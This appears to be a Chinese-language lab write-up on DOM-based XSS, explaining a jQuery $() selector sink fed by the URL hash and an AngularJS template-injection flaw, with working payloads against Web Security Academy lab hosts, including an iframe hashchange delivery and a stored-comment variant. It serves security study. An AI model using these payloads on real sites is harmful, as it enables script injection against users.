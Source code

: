 ### 接收器为 jquery 的 $()

一个自动导航的功能：

```js
// $(window) 选择浏览器窗口对象。
// on 表示绑定事件处理函数。
// hashchange 是浏览器原生事件（HTML5 定义的）

// 检测到浏览器窗口的哈希值发生变动，触发如下事件处理函数。
$(window).on('hashchange', function(){
    var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
    // 获取哈希第一个切片：如：example.com/#post1，将 post1 提取出来。
    // 按一定格式进行拼接，如拼接后的结果：section.blog-list h2:contains('post1')
    // 获取拼接后的元素对象并赋值给 post，$() 在 jquery 中是获取元素并作为对象的意思。
    
    if (post) {
        // 将 post 对象转为原生 DOM 元素，然后使用浏览器原生方法 scrollIntoView() 滚动到可见区域。
        post.get(0).scrollIntoView();
    }
});

// 潜在的 dom-xss：
// jquery 库的 $() 这个取元素的行为可作为 dom-xss 的 sink 接收器。
// jQuery 选择器会将输入视为 CSS 选择器或 HTML 片段。如果包含恶意代码（如 <img onerror>），会直接触发 XSS。
// 例如：用户输入 <img src=1 onerror=alert(1)>，js 执行如下代码
// $(section.blog-list h2:contains('<img src=1 onerror=alert(1)>')
```

![image-20250523102637171](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250523102637171.png)

```
https://0a7f00d503b7f0c7803903db00bb009e.web-security-academy.net/#<img src=1 onerror=alert(1)>
```

![image-20250524165247078](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250524165247078.png)

```
# 但是这个攻击存在 2 个步骤，来触发 hashchange 事件。
# 第一步：初始化 hash。
# 第二步：给 hash 填充 payload。
# 原因：如果初次直接访问 https://0a7f00d503b7f0c7803903db00bb009e.web-security-academy.net/#<img src=1 onerror=alert(1)>，将不触发 hashchange 事件。

# 通过 iframe 进行二次访问。
<iframe src="https://0a7f00d503b7f0c7803903db00bb009e.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>

# 如下 payload 将失败，原因是触发不了 hashchange 事件。
<iframe src="https://0a7f00d503b7f0c7803903db00bb009e.web-security-academy.net/#<img src=x onerror=print()"></iframe>
```

### 客户端模板引擎 AngularJS

AngularJS 中存在 DOM XSS 风险，其模板引擎可通过双花括号`{{}}`执行 JS 表达式，如`{{$on.constructor('alert(1)')()}}`利用原型链构造函数触发弹窗，无需传统 HTML 标签或事件，依赖框架数据绑定机制实现攻击。

```
# 访问 /?search=123 页面，页面将回显 123。
# 访问 /?search={{$on.constructor('alert(1)')()}}，AngularJS 会解析。
{{$on.constructor('alert(1)')()}}
```

![image-20250524171458103](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250524171458103.png)

```
原因：主页面被 <body ng-app> 包裹，而参数内容 {{$on.constructor('alert(1)')()}} 会直接显示在页面上，且先于 AngularJS 解析。
```

![image-20250524171528172](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250524171528172.png)

```
# 发表评论也可以触发 dom xss，成为存储型 xss
# 因为 payload 存储在数据库，而且 /post 页面也存在 <body ng-app> 包裹。
```

![image-20250524171743365](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250524171743365.png)

提交评论访问后触发 payload。

![image-20250524171827989](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250524171827989.png)

源代码页面

![image-20250524172123138](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250524172123138.png)
